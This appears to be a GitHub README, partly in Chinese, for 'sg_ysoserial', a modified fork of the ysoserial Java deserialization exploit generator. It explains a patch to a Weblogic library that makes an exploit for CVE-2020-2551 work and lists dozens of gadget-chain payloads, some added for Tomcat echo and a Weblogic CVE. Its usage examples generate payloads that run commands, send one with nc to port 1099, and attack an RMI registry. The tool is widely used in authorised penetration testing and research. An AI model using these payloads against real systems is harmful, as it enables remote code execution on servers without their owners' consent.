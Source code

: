 # sg_ysoserial

<!--
![logo](ysoserial.png) -->

## Description

clone ysoserial

Modifications and enhancements

## fix

| Exploit - Payload                         |                                               说明 |
| :---------------------------------------- | -------------------------------------------------: |
| **ysoserial.exploit.IIOPRegistryExploit** | Weblogic CVE-2020-2551 利用, 修改 wlfullclient.jar |
| **ysoserial.exploit.RMIRegistryExploit2** |                                             单元格 |

```java
ysoserial.exploit.IIOPRegistryExploit

IOPProfile在项目里的库wlfullclient.jar中定义，wlfullclient.jar是从Weblogic 10.3.6环境中导出来的。

IOPProfile路径：
CVE-2020-2551\src\lib\wlfullclient.jar!\weblogic\iiop\IOPProfile.class

这里有个知识点，Java中可以编译某个库的单个class，然后重新打包，生成新的库，这样就可以改变原来库的处理逻辑。

在原来的ConnectionKey构造下面再重新构造一个连接到指向原来IP端口的ConnectionKey,不影响后续逻辑。

Channel remoteChannel = var1.getEndPoint().getRemoteChannel();
var4 = new ConnectionKey(remoteChannel.getInetAddress().getHostAddress(),remoteChannel.getPublicPort())

不能直接改掉new ConnectionKey(var1),构造的时候会从流中读取一些数据，改掉的话，会影响后面的的数据读取，等它读完了再替换掉就好了。


```

## Usage

```shell
$  java -jar ysoserial.jar
Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'
  Available payload types:
五月 22, 2020 8:49:10 上午 org.reflections.Reflections scan
信息: Reflections took 233 ms to scan 1 urls, producing 19 keys and 150 values
     Payload                        Authors                                Dependencies
     -------                        -------                                ------------
     BeanShell1                     @pwntester, @cschneider4711            bsh:2.0b5
     C3P0                           @mbechler                              c3p0:0.9.5.2, mchange-commons-java:0.2.11
     Clojure                        @JackOfMostTrades                      clojure:1.8.0
     CommonsBeanutils1              @frohoff                               commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2
     CommonsBeanutils1TomcatHeader
     CommonsCollections1            @frohoff                               commons-collections:3.1
     CommonsCollections2            @frohoff                               commons-collections4:4.0
     CommonsCollections2TomcatEcho
     CommonsCollections2TomcatEcho2
     CommonsCollections3            @frohoff                               commons-collections:3.1
     CommonsCollections4            @frohoff                               commons-collections4:4.0
     CommonsCollections5            @matthias_kaiser, @jasinner            commons-collections:3.1
     CommonsCollections6            @matthias_kaiser                       commons-collections:3.1
     CommonsCollections7            @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1
     FileUpload1                    @mbechler                              commons-fileupload:1.3.1, commons-io:2.4
     Groovy1                        @frohoff                               groovy:2.3.9
     Hibernate1                     @mbechler
     Hibernate2                     @mbechler
     JBossInterceptors1             @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     JRMPClient                     @mbechler
     JRMPListener                   @mbechler
     JSON1                          @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1                 @matthias_kaiser                       javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     Jdk7u21                        @frohoff
     Jython1                        @pwntester, @cschneider4711            jython-standalone:2.5.2
     MozillaRhino1                  @matthias_kaiser                       js:1.7R2
     MozillaRhino2                  @_tint0                                js:1.7R2
     Myfaces1                       @mbechler
     Myfaces2                       @mbechler
     ROME                           @mbechler                              rome:1.0
     Spring1                        @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
     Spring2                        @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
     URLDNS                         @gebl
     Vaadin1                        @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14
     Weblogic_CVE_2020_2555
     Wicket1                        @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4
```

## Examples

```shell
$ java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:

$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

## Installation

## Building

Requires Java 1.7+ and Maven 3.x+

`mvn clean package -DskipTests`

## Contributing

## See Also

-   [Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet): info on vulnerabilities, tools, blogs/write-ups, etc.
-   [marshalsec](https://github.com/frohoff/marshalsec): similar project for various Java deserialization formats/libraries
-   [ysoserial.net](https://github.com/pwntester/ysoserial.net): similar project for .NET deserialization

## Thanks

-   [ysomap](https://github.com/wh1t3p1g/ysomap)
-   [ysoserial1](http://github.com/threedr3am/ysoserial/)
-   [ysoserial2](http://github.com/buptchk/ysoserial)
